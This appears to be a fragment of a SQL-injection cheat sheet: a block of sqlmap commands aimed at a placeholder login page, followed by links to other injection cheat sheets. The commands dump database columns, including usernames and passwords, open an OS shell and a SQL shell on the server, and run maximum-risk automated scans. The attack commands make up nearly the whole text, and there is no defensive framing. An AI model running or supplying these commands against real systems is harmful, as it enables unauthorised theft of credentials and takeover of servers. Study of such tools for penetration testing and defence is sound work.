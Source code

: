 ```bash
[list table in db site_db]
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
[list collums]
sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
[Dump only selected columns]
sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
[Dump a table from a database when you have admin credentials]
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell
[Get OS Shel]
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell
[Get SQL Shell]
sqlmap -r login-chris.request --level 5 --risk 3 --batch --string "Wrong identification(query corect)"
[best]
```
# Reference

-[https://sqlwiki.netspi.com/#mysql](https://sqlwiki.netspi.com/#mysql)\
-[https://sites.google.com/a/michaelboman.org/www-michaelboman-org/books/sql-injection-cheat-sheet-oracle](https://sites.google.com/a/michaelboman.org/www-michaelboman-org/books/sql-injection-cheat-sheet-oracle)\
-[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)\
-[https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/)
